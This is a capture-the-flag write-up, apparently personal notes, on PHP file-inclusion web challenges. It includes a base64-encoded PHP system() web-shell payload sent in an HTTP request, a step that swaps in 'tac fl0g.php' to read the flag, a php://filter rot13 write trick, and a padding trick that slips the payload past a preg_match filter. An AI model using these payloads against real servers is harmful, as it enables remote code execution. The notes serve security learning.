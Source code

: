 ```
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
content=aaPD9waHAgc3lzdGVtKCdscycpOw==
```
注意不一定非要用base64 

![[Pasted image 20241112001047.png]]
![[Pasted image 20241112001122.png]]
看到`fl0g.php`了。
然后用同样的方法，把`ls`换成`tac fl0g.php`:
![[Pasted image 20241112001350.png]]
![[Pasted image 20241112001411.png]]
OKay大功告成！
但是我用Burp Suit 就不行！！！后面有时间再看。


`?file=php://filter/write=string.rot13/resource=5.php`
`string.rot13` ：应用 ROT13 编码（字符替换算法）。

`file_put_contents`函数把一个字符串写入文件中。
`"".$content`: can be known as `$str1 = "Hello"; $str2 = "World"; $newStr = $str1 . $str2; // 结果为 "HelloWorld"`


# Web 88
![[Pasted image 20241115182714.png]]
Just like the [[#Web 79]], but:
1. Append `space` after the `<?php system('ls');`, until the base64 encoding can't generate the code with `=`. This can avoid the filter `preg_match()`.
	1. ![[Pasted image 20241115182745.png]]
2. Then the same trick as step 1.
	1. ![[Pasted image 20241115182940.png]]
# Web 117

![[Pasted image 20241118211709.png]]
## 1. Capture Information
